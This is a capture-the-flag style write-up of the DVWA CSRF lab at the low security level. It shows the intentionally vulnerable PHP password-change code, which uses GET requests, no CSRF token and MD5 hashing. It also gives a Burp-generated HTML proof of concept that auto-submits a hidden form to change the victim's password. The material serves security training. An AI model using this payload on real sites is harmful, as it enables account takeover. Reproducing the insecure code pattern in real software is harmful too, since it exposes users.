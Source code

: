 # CSRF

## Security Level - Low

### Source code

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match?
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );

        // Update the database
        $current_user = dvwaCurrentUser();
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . $current_user . "';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?> 
```

### Exploit
![csrflowlevelreview](images/csrflowlevelreview.png)

Intercept a password change request 

![csrfrequestlow](images/csrfrequestlow.png)

Notice we satsify the 3 CSRF conditions: 
* Relevant action (Change password)
* Cookie-based session handling
* No unpredictable parameters

Generate CSRF PoC using Burp and then test it in the browser
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://192.168.109.53/DVWA/vulnerabilities/csrf/">
      <input type="hidden" name="password&#95;new" value="123" />
      <input type="hidden" name="password&#95;conf" value="123" />
      <input type="hidden" name="Change" value="Change" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
![csrfpoctestlowlevel](images/csrfpoctestlowlevel.png)

Result

![csrfresultlowlevel](images/csrfresultlowlevel.png)

